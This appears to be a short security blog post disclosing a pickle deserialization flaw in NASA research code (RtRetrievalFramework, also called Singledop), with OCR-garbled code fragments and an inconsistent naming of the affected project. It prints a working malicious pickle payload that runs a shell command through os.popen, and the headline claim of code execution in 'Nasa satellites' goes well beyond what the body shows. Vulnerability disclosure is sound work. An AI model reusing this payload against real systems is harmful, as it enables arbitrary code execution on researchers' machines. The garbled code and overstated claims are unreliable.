 ```yaml
---
layout: post
title: CVE-2018-1000048
subtitle: Remote code execution in Nasa satellites and systems
image: img/nasa_insignia_300.jpg
gh-repo: cr1at0rs/cr1at0rs.github.io
gh-badge:
  - star
  - fork
  - follow
published: true
---
```

### RtRetrievalFramework

![RT Retrieval Framework]({{site.baseurl}}/img/Screen Shot 2018-02-27 at 11.24.01 AM.png)

RtRetrievalFramework

or fname in flist: 14 with open(fname) as f: 15 t = cPickle.load(f) 16 xco2_a = t["XCO2_a"] … 23 with open("my_cov.pkl") as f: 24 dist_cov = cPickle.load(f) 25

I would like to report a remote code execution potential vulnerability in Singledop. Pickle module enables binary serialization and loading of Python datatypes and any user supplied sample file can lead to remote code execution on any researches machine processing a serialized file.


### Attack binary a valid DOP file:

mona@mona-virtual-machine:~/Downloads/SingleDop$ cat t_file

Exploit file:

 cos popen (S'uname -a' tRp100 0c__builtin__ getattr (c__builtin__ file S'read' tRp101 0c__builtin__ apply (g101 (g100 I1000 ltRp102 0c__builtin__ getattr (c__builtin__ file S'close' tRp103 0c__builtin__ apply (g103 (g100 ltRp104 0g102 .

